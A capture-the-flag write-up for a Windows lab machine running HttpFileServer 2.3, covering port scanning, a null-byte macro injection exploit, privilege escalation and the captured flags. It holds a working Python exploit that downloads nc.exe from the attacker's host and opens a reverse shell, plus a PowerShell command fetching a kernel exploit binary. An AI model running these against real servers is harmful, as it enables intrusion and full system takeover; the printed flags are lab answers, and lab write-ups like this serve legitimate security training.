 ![](pics/logo.png)

# Optimum (Windows)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.127 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Looking at the open port 80 via the Browser, we see following page:

![](pics/website.png)

The server is hosting a HTTPFileServer version 2.3. Doing some research shows, that this specific version has some kind of Remote Code Injection vulnerability.

## Exploitation

The version of the File server uses a library `ParserLib.pas`, which contains a vulnerable function `findMacroMarker`

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

This does not handle null bytes! So we can simply request 

```
http://localhost:80/?search=%00{.exec|cmd.}
```

This will stop the regex from parsing the macro and instead execute the macro.


To abuse the vulnerability, I used this script here (might have to execute it several times). You also need to start a http server, from which the script then can download the `nc.exe`, in order to create a reverse shell to your machine.

```python
import urllib2
import sys

try:
        def script_create():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

        def execute_script():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

        def nc_run():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

        ip_addr = "10.10.14.26" #local IP address
        local_port = "4444" # Local Port number
        vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
        save= "save|" + vbs
        vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
        exe= "exec|"+vbs2
        vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
        exe1= "exec|"+vbs3
        script_create()
        execute_script()
        nc_run()
except:
        print """[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script"""

```

If everything is setup correctly, we can run the script and receive a reverse shell:

```
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```


## Privilege Escalation

Now that we have access to the server, we can look for a way to escalate our privileges. Therefore, we copy the `systeminfo` output to our local machine and use `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to identify a possible vulnerability.

Going through the list, I stumbled upon this vulnerability: https://www.exploit-db.com/exploits/41020 ([Details](https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/), [Binary](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)).

As wget and curl are both not available for our current user, we have to use Powershell.

```
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.26/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Afterwards, we can use the exploit to obtain system privileges.

```
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

## Post-Exploitation

User Flag
```
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

Root Flag

```
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```